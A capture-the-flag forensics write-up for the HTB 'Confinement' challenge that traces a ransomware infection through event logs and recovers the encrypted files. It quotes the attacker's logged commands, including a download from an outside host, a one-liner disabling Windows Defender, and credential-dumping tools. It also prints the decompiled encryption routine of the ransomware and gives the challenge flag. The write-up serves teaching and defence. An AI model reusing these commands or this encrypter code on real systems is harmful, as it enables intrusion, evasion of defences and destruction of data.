


# Cyber Apocalypse 2024

## Confinement

> "Our clan's network has been infected by a cunning ransomware attack, encrypting irreplaceable data essential for our relentless rivalry with other factions. With no backups to fall back on, we find ourselves at the mercy of unseen adversaries, our fate uncertain. Your expertise is the beacon of hope we desperately need to unlock these encrypted files and reclaim our destiny in The Fray.
Note: The valuable data is stored under \Documents\Work"
> 
> Author: bquanman
> 

Tags: _forensics_

## Solution
This challenge comes with an [`ad1 file`](https://dfir.science/2021/09/What-is-an-AD1.html). This type of file is a proprietary format that is sometimes used in forensics to hold file level data (not an actual file system snapshot), so more or less an container with logical files. The files can be accessed/extracted with [`FTK Imager`](https://www.exterro.com/digital-forensics-software/ftk-imager), or using `7z` with an [`plugin`](https://www.tc4shell.com/en/7zip/forensic7z/).

After extracting the data we cann see a typical folder hierarchy used in windows systems. Since the challenge descriptions mentioned the valuable data is stored in `\Documents\Work` we navigate to the documents folder of the only user `tommyxiaomi`.

```bash
C:\Users\ctf\Root\Users\tommyxiaomi\Documents>tree /F
Folder PATH listing for volume Boot
Volume serial number is 867B-3410
C:.
│   $I30
│   desktop.ini
│
├───data
├───My Music
├───My Pictures
├───My Videos
├───report
│       $I30
│       10.1007_s11227-019-03137-5-.pdf.korp
│       t-nsiad-94-266.pdf.korp
│       ULTIMATUM.hta
│       VaccineQualResearchReport.pdf.korp
│       wara2020.pdf.korp
│       WHO_IVB_06.01_eng.pdf.korp
│
├───stuff
│       From DNA to protein - 3D.jpeg.korp
│       ULTIMATUM.hta
│
├───subject imgs
│       $I30
│       167c389f8717e0f3831f3032eaa144e1.jpg.korp
│       5a7c6238a8809a1e008b472b.webp
│       68551_full.jpg.korp
│       Caged-Subject.jpg.korp
│       d31znl-d34c8f33-9a1f-45fb-9bea-dd1affe00fe3.jpg.korp
│       eN2gE.jpg.korp
│       ULTIMATUM.hta
│
└───Work
    └───Ncomp
            $I30
            Applicants_info.xlsx.korp
            ULTIMATUM.hta
```

The additional extension `.korp` looks suspiciously like a ransomware attack, and indeed in `ULTIMATUM.hta` we find a `alert message`.



The goal is probably to recover the files, but for this we need to know what ransomware was used or better, have a sample of the actual ransomware for analysis. A quick google for the file extension didn't leed to anything, but the message also suggests the ransomware was either custom made for the `event` or at least an adapted version of the ransomware.

Anyways, we have to find more traces, so we analyze the event logs. For this we can use [`Hayabusa`](https://github.com/Yamato-Security/hayabusa) together with [`Timeline Explorer`](https://ericzimmerman.github.io/#!index.md).

```bash
C:\Users\ctf\hayabusa-2.13.0-win-x64>hayabusa-2.13.0-win-x64.exe update-rules
C:\Users\ctf\hayabusa-2.13.0-win-x64>hayabusa-2.13.0-win-x64.exe csv-timeline -d C:\Users\ctf\Root\Windows\System32\winevt\Logs -o event-log-output.csv

╔╗ ╔╦═══╦╗  ╔╦═══╦══╗╔╗ ╔╦═══╦═══╗
║║ ║║╔═╗║╚╗╔╝║╔═╗║╔╗║║║ ║║╔═╗║╔═╗║
║╚═╝║║ ║╠╗╚╝╔╣║ ║║╚╝╚╣║ ║║╚══╣║ ║║
║╔═╗║╚═╝║╚╗╔╝║╚═╝║╔═╗║║ ║╠══╗║╚═╝║
║║ ║║╔═╗║ ║║ ║╔═╗║╚═╝║╚═╝║╚═╝║╔═╗║
╚╝ ╚╩╝ ╚╝ ╚╝ ╚╝ ╚╩═══╩═══╩═══╩╝ ╚╝
   by Yamato Security

Start time: 2024/03/14 09:04

Total event log files: 162
Total file size: 104.1 MB

Scan wizard:

✔ Which set of detection rules would you like to load? · 5. All event and alert rules (4337 rules) ( status: * | level: informational+ )
✔ Include deprecated rules? (202 rules) · yes
✔ Include unsupported rules? (45 rules) · yes
✔ Include noisy rules? (12 rules) · yes
✔ Include sysmon rules? (2119 rules) · yes

Loading detection rules. Please wait.

...

Saved file: event-log-output.csv (10.2 MB)

Elapsed time: 00:00:22.134
```

The resulting `csv` we open with `Timeline Explorer` and now we comfortably can go though the critical events. After a while we can see some suspicious activity.



The attacker changed to the documents folder and went on to download a zip file from `http://13.53.200.146/`, unpack it and start to use some of the tools. Interestingly `Windows Defender` recognized the tools as threat.

```bash
ScriptBlock: Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
ScriptBlock: Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
ScriptBlock: &"C:\Program Files\7-Zip\7z.exe" x -p hoilamgi intel.zip
ScriptBlock: &"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
ScriptBlock: ./mimikatz.exe
Threat: HackTool:Win32/Mimikatz!pz ¦ Severity: High ¦ Type: Tool ¦ User: ¦ Path: file:_C:\Users\tommyxiaomi\Documents\mimikatz.exe ¦ Proc: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ScriptBlock: ./fscan64.exe
Threat: Trojan:Win32/CryptInject ¦ Severity: Severe ¦ Type: Trojan ¦ User: ¦ Path: file:_C:\Users\tommyxiaomi\Documents\fscan64.exe ¦ Proc: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Then the attacker continues with `intel.exe` which also is quarantined. 

```bash
ScriptBlock: & "./intel.exe"
Threat: Trojan:Win32/Wacatac.B!ml ¦ Severity: Severe ¦ Type: Trojan ¦ User: DESKTOP-A1L0P1U\tommyxiaomi ¦ Path: file:_C:\Users\tommyxiaomi\Documents\intel.exe ¦ Proc: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

After a while the attacker disables realtime monitoring of `Windows Defender` and unzips the package again. Calls `browser-pw-decrypt.exe` and `intel.exe` (this time without being quarantined). Checks the `report directory` (probably to see if things where encrypted successfully) and then removes the binaries and the zip file.

```bash
ScriptBlock: Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
ScriptBlock: Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
ScriptBlock: Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
ScriptBlock: &"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
ScriptBlock: ./browser-pw-decrypt.exe
ScriptBlock: ./browser-pw-decrypt.exe all
ScriptBlock: & "./intel.exe"
ScriptBlock: cd report
ScriptBlock: dir
ScriptBlock: cd ..
ScriptBlock: rm ./*.exe -force
ScriptBlock: dir
ScriptBlock: rm intel.zip -force
ScriptBlock: dir
```

So the ransomware is `intel.exe`. A quick search for `*intel*` gives us the [`Windows Error Reporting`](https://learn.microsoft.com/en-us/windows/win32/wer/about-wer).

```ini
Version=1
EventType=CLR20r3
EventTime=133541169195413692
ReportType=2
Consent=1
UploadTime=133541169217978399
ReportStatus=268435456
ReportIdentifier=56c90743-7d06-4977-8894-f327baef59ea
IntegratorReportIdentifier=188225e0-a5cd-463c-8621-eaf6bec63673
Wow64Host=34404
NsAppName=intel.exe
OriginalFilename=Encrypter.exe
AppSessionGuid=00001c44-0001-000f-8b94-4e5dfc6eda01
TargetAppId=W:0006fe40cd17ba527db0db246f4f9ea80aff00000000!0000497662b51727caf4e48646f116ef77e1e6199e23!intel.exe
TargetAppVer=2051//05//06:18:39:09!0!intel.exe
BootId=4294967295
TargetAsId=537
IsFatal=1
EtwNonCollectReason=1
Response.BucketId=005e4c1c70c810bc6e264d669669c1a7
Response.BucketTable=5
Response.LegacyBucketId=2172508973258359207
Response.type=4
Sig[0].Name=Problem Signature 01
Sig[0].Value=intel.exe
...
```

There is some interesting information in there, for instance the original filename was `Encrypter.exe`. Since the `exe` was deleted we do a bit of google research for `Encrypter.exe ransomware`. There is an interesting [`article`](https://blog.compass-security.com/2022/11/a-symmetric-cipher-ransomware-yes/) on `A Symmetric Cipher Ransomware … YES!` that definitely has some parallels to the ransomware used here.

For instance the ransom note also uses the file extension `hta` and ther note itself looks vaguely familiar. Especially there is a `Attack ID` which, in our case is called `Faction ID`  but has more or less the same length and characteristic. 

Also the ransomware doesn't encrypt files larger than `1000000` bytes. For these files only the first byte is xored with `255`. We check this, and can indeed find some pdf files which where handled like this.

In the article, there is even some decompiled code and a `Cyberchef` recipe that helps to decrypt the files.

Well, we can try it... But it fails. Further down, we see another [`article`](https://labs.k7computing.com/index.php/dcdcrypt-ransomware-decryptor/) linked, for an older version of this ransomware. There also decompiled code is visible, but a crutial information is missing. The ransomware uses `AES` and the key is generated from an password. The password itself is the `Attacker ID` plus some salt and the salt is not exposed. So we cannot create an decryptor from this articles.

But wait... If we think back, the first time the attacker used `intel.exe` it was quarantined, maybe the file still is in quarantine? Lets check this with [`defender-dump`](https://github.com/knez/defender-dump/blob/master/defender-dump.py).

```bash
$ python defender-dump.py "/mnt/c/Users/ctf/Root/ProgramData/Microsoft/Windows Defender/Quarantine"/
2024-03-05 12:42:39.474345 HackTool:Win32/LaZagne     C:\Users\tommyxiaomi\Documents\browser-pw-decrypt.exe
2024-03-05 12:42:54.139045 Trojan:Win32/CryptInject   C:\Users\tommyxiaomi\Documents\fscan64.exe
2024-03-05 12:44:38.725888 Trojan:Win32/Wacatac.B!ml  C:\Users\tommyxiaomi\Documents\intel.exe
2024-03-05 12:42:54.139045 HackTool:Win32/Mimikatz!pz C:\Users\tommyxiaomi\Documents\mimikatz.exe
```

Perfect, it's all still here, so we quickly extract the files and then we can start reversing.

```bash
$ python defender-dump.py --dump "/mnt/c/Users/ctf/Root/ProgramData/Microsoft/Windows Defender/Quarantine"/
Exporting browser-pw-decrypt.exe
Exporting fscan64.exe
Exporting intel.exe
Exporting mimikatz.exe
File 'quarantine.tar' successfully created
```

From the articles, mentioned above, we know the rasnomware is a `.NET` application. So we unpack it from `quarantine.tar` and open it in [`dnSpy`](https://github.com/dnSpy/dnSpy).

The code looks mostly identical to what we had in the articles above. We have the `PasswordHasher` that creates a `SHA512` hash and returns this as `Base64` encoded.

```c#
internal class PasswordHasher
	{
		// Token: 0x0600001A RID: 26 RVA: 0x000027C8 File Offset: 0x000009C8
		public string GetSalt()
		{
			return Guid.NewGuid().ToString("N");
		}

		// Token: 0x0600001B RID: 27 RVA: 0x000027E8 File Offset: 0x000009E8
		public string Hasher(string password)
		{
			string result;
			using (SHA512CryptoServiceProvider sha512CryptoServiceProvider = new SHA512CryptoServiceProvider())
			{
				byte[] bytes = Encoding.UTF8.GetBytes(password);
				result = Convert.ToBase64String(sha512CryptoServiceProvider.ComputeHash(bytes));
			}
			return result;
		}

		// Token: 0x0600001C RID: 28 RVA: 0x00002834 File Offset: 0x00000A34
		public string GetHashCode(string password, string salt)
		{
			string password2 = password + salt;
			return this.Hasher(password2);
		}

		// Token: 0x0600001D RID: 29 RVA: 0x00002163 File Offset: 0x00000363
		public bool CheckPassword(string password, string salt, string hashedpass)
		{
			return this.GetHashCode(password, salt) == hashedpass;
		}
	}
```

Also we have the `CoreEncrypter`. The method `EncryptFile` is also mostly identical, `AES` is setup, the file is read, then encrypted and then written to a pendant with the extension `.korp`. Afterwards the original file is deleted. This happens to files with less than `1000000L` bytes. Larger files are handled differently: For larger files the first byte is xored with `255` and then the file is renamed.

As mentioned, the code is more or less identical from what we saw in the articles, except, the salt used is differently.

```c#
public void EncryptFile(string file)
{
  byte[] array = new byte[65535];
  byte[] salt = new byte[]
  {
    0,
    1,
    1,
    0,
    1,
    1,
    0,
    0
  };
  Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(this.password, salt, 4953);
  RijndaelManaged rijndaelManaged = new RijndaelManaged();
  rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
  rijndaelManaged.Mode = CipherMode.CBC;
  rijndaelManaged.Padding = PaddingMode.ISO10126;
  rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
  FileStream fileStream = null;
  try
  {
    if (!File.Exists(Directory.GetDirectoryRoot(file) + "\\" + this.alertName + ".hta"))
    {
      File.WriteAllText(Path.GetDirectoryName(file) + "\\" + this.alertName + ".hta", this.alert);
    }
    File.WriteAllText(Path.GetDirectoryName(file) + "\\" + this.alertName + ".hta", this.alert);
  }
  catch (Exception ex)
  {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine(ex.Message);
    Console.ForegroundColor = ConsoleColor.Red;
  }
  try
  {
    fileStream = new FileStream(file, FileMode.Open, FileAccess.ReadWrite);
  }
  catch (Exception ex2)
  {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine(ex2.Message);
    Console.ForegroundColor = ConsoleColor.Red;
  }
  if (fileStream.Length < 1000000L)
  {
    string path = null;
    FileStream fileStream2 = null;
    CryptoStream cryptoStream = null;
    try
    {
      path = file + ".korp";
      fileStream2 = new FileStream(path, FileMode.Create, FileAccess.Write);
      cryptoStream = new CryptoStream(fileStream2, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write);
    }
    catch (Exception ex3)
    {
      Console.ForegroundColor = ConsoleColor.Red;
      Console.WriteLine(ex3.Message);
      Console.ForegroundColor = ConsoleColor.Red;
    }
    try
    {
      int num;
      do
      {
        num = fileStream.Read(array, 0, array.Length);
        if (num != 0)
        {
          cryptoStream.Write(array, 0, num);
        }
      }
      while (num != 0);
      fileStream.Close();
      cryptoStream.Close();
      fileStream2.Close();
    }
    catch (Exception ex4)
    {
      Console.ForegroundColor = ConsoleColor.Red;
      Console.WriteLine(ex4.Message);
      Console.ForegroundColor = ConsoleColor.Red;
    }
    try
    {
      File.Delete(file);
      return;
    }
    catch (Exception)
    {
      File.Delete(path);
      return;
    }
  }
  string destFileName = file + ".korp";
  try
  {
    long position = fileStream.Position;
    int num2 = fileStream.ReadByte() ^ 255;
    fileStream.Seek(position, SeekOrigin.Begin);
    fileStream.WriteByte((byte)num2);
    fileStream.Close();
    File.Move(file, destFileName);
  }
  catch (Exception ex5)
  {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine(ex5.Message);
    Console.ForegroundColor = ConsoleColor.Red;
  }
}
```

Lets check further. The main function initializes things, creates the `user id` (which is used as attacker id) and initializes the `CoreEncrypter` with the hashcode from `user id` and `salt`. 

```c#
private static void Main(string[] args)
{
  Utility utility = new Utility();
  PasswordHasher passwordHasher = new PasswordHasher();
  // HTB spanning a safety net -->
  if (!Dns.GetHostName().Equals("DESKTOP-A1L0P1U", StringComparison.OrdinalIgnoreCase))
  {
    return;
  }
  // <--
  Program.UID = utility.GenerateUserID();
  utility.Write("\nUserID = " + Program.UID, ConsoleColor.Cyan);
  Alert alert = new Alert(Program.UID, Program.email1, Program.email2);
  Program.email = string.Concat(new string[]
  {
    Program.email1,
    " And ",
    Program.email2,
    " (send both)"
  });
  Program.coreEncrypter = new CoreEncrypter(passwordHasher.GetHashCode(Program.UID, Program.salt), alert.ValidateAlert(), Program.alertName, Program.email);
  utility.Write("\nStart ...", ConsoleColor.Red);
  Program.Enc(Environment.CurrentDirectory);
  Console.ReadKey();
}
```

This time we have the salt which is `0f5264038205edfb1ac05fbb0e8c5e94`, so we can start working on an decryptor. The full source code can be found [`here`](decrypter.cs).

After running, we get the files back in working state. There are some pdf files and images which don't contain the flag but, inside some hidden folder, we find an `excel sheet` and within we finally find the flag.

Flag `HTB{2_f34r_1s_4_ch01ce_322720914448bf9831435690c5835634}`